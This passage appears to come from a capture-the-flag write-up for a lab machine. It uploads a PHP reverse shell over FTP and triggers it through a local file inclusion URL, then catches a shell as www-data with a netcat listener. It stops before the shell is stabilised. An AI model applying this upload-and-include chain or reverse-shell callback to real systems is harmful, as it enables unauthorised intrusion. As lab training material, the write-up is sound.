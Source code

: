 We can see a file and a directory

```
ftp> ls -la
229 Entering Extended Passive Mode (|||48543|)
150 Here comes the directory listing.
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 ..
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
```

It seems that we can upload file to it, I will upload a PHP reverse shell

```
ftp> put rev.php
local: rev.php remote: rev.php
229 Entering Extended Passive Mode (|||42035|)
150 Ok to send data.
100% |***********************************************************************|  2585       46.51 MiB/s    00:00 ETA
226 Transfer complete.
2585 bytes sent in 00:00 (11.86 KiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||48587|)
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Nov 03 15:28 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 ..
-rw-r--r--    1 1001     1001         2585 Nov 03 15:28 rev.php
```

Going back to `/secret_file_do_not_read.txt`, it stated that the files will be saved to `/home/ftpuser/ftp/files`.

We will try and access our reverse shell on that path.

`http://10.10.66.182/post.php?post=/home/ftpuser/ftp/files/rev.php`

and success! we got a shell

```
─# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.6.48.114] from (UNKNOWN) [10.10.66.182] 50878
Linux watcher 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:31:05 up 52 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

To stabilized the shell, we can use these commands
